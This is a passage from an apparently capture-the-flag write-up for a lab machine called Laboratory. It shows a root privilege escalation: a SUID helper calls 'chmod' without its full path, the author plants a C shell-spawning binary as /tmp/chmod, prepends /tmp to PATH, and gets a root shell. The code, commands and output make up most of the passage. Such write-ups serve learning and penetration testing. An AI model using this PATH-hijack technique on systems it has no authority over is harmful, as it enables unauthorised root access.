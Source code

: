 The binary is calling `system("chmod ...")`. The important part here is that it isn’t using the full path to `chmod`. That is something I can exploit.

### Shell

I don’t see any tools to compile a binary on Laboratory, so I’ll work on my VM. I’ll use this snippet of C code:

```

#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setresuid(0, 0, 0);
    system("/bin/bash");
}

```

It simply sets the process privs to root, and then calls `bash`. I don’t actually need the `setresuid` call, as `docker-security` actually calls `setuid(0)` and `setgid(0)` before calling `chmod`. This is just handy template I have around for cases like this, and many times a process will actually lower it’s privileges before making a risky call (and the `setresuid` fixes that for me).

I’ll compile this and copy it to Laboratory with `scp`:

```

oxdf@parrot$ gcc suid.c -o suid
oxdf@parrot$ scp -i ~/keys/laboratory_dexter suid dexter@10.10.10.216:/tmp/chmod
suid                                          100%   16KB 399.5KB/s   00:00

```

I’ll also update the `PATH` variable so that `/tmp` is the first directory checked:

```

dexter@laboratory:/tmp$ export PATH=/tmp:$PATH

```

When `docker-security` runs, when it makes the call to `chmod`, it will get the `chmod` binary from `/tmp`, which will return a shell:

```

dexter@laboratory:/tmp$ docker-security 
root@laboratory:/tmp#

```

And I can grab `root.txt`:

```

root@laboratory:/root# cat root.txt
9b147368************************

```